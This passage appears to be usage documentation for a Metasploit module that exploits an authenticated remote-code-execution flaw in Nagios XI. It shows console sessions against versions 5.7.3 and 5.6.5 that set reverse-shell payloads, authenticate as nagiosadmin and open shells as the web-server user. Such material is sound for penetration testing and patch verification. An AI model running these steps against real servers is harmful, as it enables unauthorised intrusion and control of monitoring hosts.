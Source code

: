 ```
Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   CMD


msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.1.12:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Executing the payload
[*] Command shell session 2 opened (192.168.1.12:4444 -> 192.168.1.16:55162) at 2021-04-01 13:18:31 -0400

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```

### Nagios 5.6.5 on Ubuntu 20.04 LTS
```
msf6 > use exploit/linux/http/nagios_xi_mibs_authenticated_rce
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set RHOSTS 172.19.34.88
RHOSTS => 172.19.34.88
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set LHOST 172.19.37.24
LHOST => 172.19.37.24
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > exploit

[*] Started reverse TCP handler on 172.19.37.24:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Sending stage (980808 bytes) to 172.19.34.88
[*] Meterpreter session 1 opened (172.19.37.24:4444 -> 172.19.34.88:49942) at 2021-04-16 12:40:40 -0500

meterpreter > getuid
Server username: www-data @ test-Virtual-Machine (uid=33, gid=33, euid=33, egid=33)
meterpreter > getprivs
[-] The "getprivs" command is not supported by this Meterpreter type (x86/linux)
meterpreter > shell
Process 11695 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),132(Debian-snmp),1001(nagios),1002(nagcmd)
```